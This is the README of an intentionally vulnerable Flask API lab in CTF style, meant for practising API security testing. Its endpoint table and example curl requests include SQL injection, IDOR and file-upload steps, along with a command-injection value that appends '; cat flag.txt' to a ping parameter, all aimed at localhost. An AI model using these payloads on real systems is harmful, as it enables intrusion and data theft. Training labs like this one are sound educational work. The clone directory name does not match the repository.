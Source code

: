 # API-Lab
An intentionally vulnerable API lab for practicing API security testing with Postman &amp; Burp Suite.  Includes common flaws like SQLi, IDOR, Broken Auth, CORS misconfig, and File Upload vulnerabilities.  For educational use only.
# HackerHunt-Lab API

A CTF-style vulnerable API lab built with Flask for security learners to practice exploiting common vulnerabilities.
 🔑 Broken Authentication
- 🔎 Insecure Direct Object Reference (IDOR)
- 💉 SQL Injection
- ⚡ Command Injection
- 🕵️ Information Disclosure
- 🌍 CORS Misconfiguration
- 📂 File Upload Vulnerabilities

Each vulnerable endpoint is designed to teach common API exploitation techniques in a **safe, controlled environment**.


## 🚀 Setup Instructions

### 1. Clone repository

```bash
git clone https://github.com/cyberb873/API-Lab.git
cd Packard-Tricks-Associate

2. Install dependencies

pip install -r requirements.txt

3. Run the app

python app.py

The API will start on http://0.0.0.0:5000.



🐳 Docker Usage

Build the Docker image:


docker build -t hackerhunt-lab .

Run the container:


docker run -p 5000:5000 hackerhunt-lab


📋 Vulnerable Endpoints

| Endpoint                        | Description                           | Method   | Notes                                |
|--------------------------------|-------------------------------------|----------|-------------------------------------|
| /vuln/auth/login              | Broken Authentication                | POST     | Weak password check, bypass to get flag |
| /vuln/idor/item/<id>          | IDOR                               | GET      | Access other users' items, flag in Bob's item #3 |
| /vuln/sqli/search?q=          | SQL Injection                      | GET      | Inject ' OR '1'='1 to reveal flag |
| /vuln/cmdinject/ping?ip=      | Command Injection                  | GET      | Inject ; cat flag.txt to get flag |
| /vuln/info/debug              | Information Disclosure             | GET      | Returns secret config including flag |
| /vuln/cors/data               | CORS Misconfiguration             | GET      | Allows any origin, returns flag     |
| /vuln/upload                  | File Upload                       | POST     | Upload evil.txt to get flag       |



🔍 Example curl Requests

Broken Authentication (Bypass)

curl -X POST http://localhost:5000/vuln/auth/login -H "Content-Type: application/json" -d '{"username":"alice","password":"letmein"}'

IDOR Access Bob's secret item

curl http://localhost:5000/vuln/idor/item/3

SQL Injection

curl "http://localhost:5000/vuln/sqli/search?q=' OR '1'='1"

Command Injection

curl "http://localhost:5000/vuln/cmdinject/ping?ip=127.0.0.1; cat flag.txt"

Information Disclosure

curl http://localhost:5000/vuln/info/debug

CORS Misconfiguration

curl http://localhost:5000/vuln/cors/data

File Upload

curl -F "file=@evil.txt" http://localhost:5000/vuln/upload


🛠️ Using Postman & Burp Suite


Postman: Import endpoints as requests, set method and parameters accordingly.

Burp Suite: Proxy your requests through Burp to intercept, modify, and replay.

Test injection points (e.g., SQLi, Command Injection) by manipulating parameters.

Observe flags returned when vulnerabilities are successfully exploited.



⚠️ Disclaimer

This project is for educational purposes only. Use it only in authorized environments and labs.

Do NOT deploy this vulnerable app in production or public-facing servers.



Happy hacking! 🔐
